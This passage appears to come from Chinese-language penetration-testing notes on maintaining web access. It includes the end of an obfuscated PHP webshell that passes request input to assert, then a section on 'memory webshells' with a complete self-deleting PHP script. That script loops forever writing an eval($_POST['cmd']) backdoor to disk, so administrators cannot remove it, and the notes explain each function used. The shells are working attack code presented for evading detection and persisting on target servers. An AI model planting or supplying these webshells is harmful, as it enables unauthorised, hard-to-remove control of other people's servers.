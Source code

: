 ```php
}
/*设置一个数组，参数为_POST,_GET,然后把该数组用$_request去表示，再设置一个遍历，把$_request设为一个可变变量，再键值分离
再设$$_key=$_value，做一个定义，定义可变变量$_key键等于值得内容再设$$_key=$_value，做一个定义，定义可变变量$_key键等于值得内容
*/
$zhushi($_value);
//最后就是assert(传入的变量值)
?>
```
## 内存马
内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐
### PHP
php内存马也就是php不死马是将不死马启动后删除本身，在内存中执行死循环，使管理员无法删除木马文件。本次演示是将php不死马放到web目录下访问后及执行会在本地循环生成php一句话木马。
```php
<?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  while (1) {
    $content = '<?php @eval($_POST["cmd"]); ?>';
    file_put_contents("22.php", $content);
    usleep(10000);
  }
?>
```
函数说明：

1. ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行，如果设置为 true，则忽略与用户的断开。
2. set_time_limit()函数：设置允许脚本运行的时间，单位为秒。如果设置为0（零），没有时间方面的限制。
3. unlink(__FILE__)函数：删除文件。
4. file_put_contents函数：将一个字符串写入文件。
5. usleep函数：延迟执行当前脚本若干微秒（一微秒等于一百万分之一秒）

访问该文件，则会生成22.php，并立马删除该文件

![image.png](./Web_权限维持.assets/2023_05_19_15_14_38_AdD6bMLa.png)

![image.png](./Web_权限维持.assets/2023_05_19_15_14_38_Sa1Q5Rj0.png)
